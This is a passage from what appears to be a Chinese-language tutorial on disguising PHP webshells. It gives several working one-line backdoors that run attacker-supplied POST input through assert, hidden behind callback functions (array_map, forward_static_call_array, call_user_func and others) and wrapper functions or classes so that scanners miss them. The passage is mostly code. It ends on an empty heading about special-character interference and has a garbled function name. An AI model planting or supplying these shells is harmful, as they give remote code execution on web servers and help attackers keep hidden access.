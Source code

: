 ```php
function kdog($a){
    assert($a);
}
kdog($_POST[x]);
?>
```
## 2.3. 回调函数
### 2.3.1. 回调函数列表
```php
call_user_func_array()
call_user_func()
array_filter() 
array_walk()  
array_map()
registregister_shutdown_function()
register_tick_function()
filter_var() 
filter_var_array() 
uasort() 
uksort() 
array_reduce()
array_walk() 
array_walk_recursive()
```
### 2.3.2. 冷门回调函数
```php
<?php 
forward_static_call_array(assert,array($_POST[x]));
?>
```
### 2.3.3. 回调函数变形
定义函数或者类来调用回调函数
```php
//定义一个函数
<?php
function test($a,$b){
    array_map($a,$b);
}
test(assert,array($_POST['x']));
?>
//定义一个类
<?php
class loveme {
    var $a;
    var $b;
    function __construct($a,$b) {
        $this->a=$a;
        $this->b=$b;
    }
    function test() {
       array_map($this->a,$this->b);
    }
}
$p1=new loveme(assert,array($_POST['x']));
$p1->test();
?>
```
## 2.4. 特殊字符干扰
```php
//初代版本
```